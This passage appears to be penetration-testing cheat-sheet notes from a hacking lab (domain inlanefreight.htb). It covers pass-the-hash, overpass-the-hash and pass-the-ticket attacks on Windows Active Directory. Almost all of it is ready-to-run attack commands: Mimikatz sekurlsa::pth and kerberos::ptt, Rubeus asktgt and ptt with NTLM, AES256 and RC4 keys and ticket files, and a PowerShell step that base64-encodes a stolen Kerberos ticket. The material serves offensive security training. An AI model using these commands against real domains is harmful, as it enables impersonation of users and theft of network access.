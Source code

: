 ```cmd.exe
privilege::debug
```

```cmd.exe
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```
This will create a new cmd.exe window that we can use to request access to any service we want in the context of the target user

#### Rubeus - Pass the Key or OverPass the Hash
```cmd.exe
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

***Note: Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.***

### Pass-the-Ticket (PtT)

#### Rubeus Pass-the-Ticket
```cmd.exe
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

#### Rubeus - Pass-the-Ticket using a ticket exported from Mimikatz
```cmd.exe
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```

#### Using PowerShell to convert a .kirbi to base64
```PowerShell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```

#### Pass-the-Ticket w/ Rubeus providing the base64 string instead of the file name
```cmd.exe
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```

#### Mimikatz - Pass-the-Ticket
```cmd.exe
mimikatz.exe
```

```cmd.exe
privilege::debug
```

```cmd.exe
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```
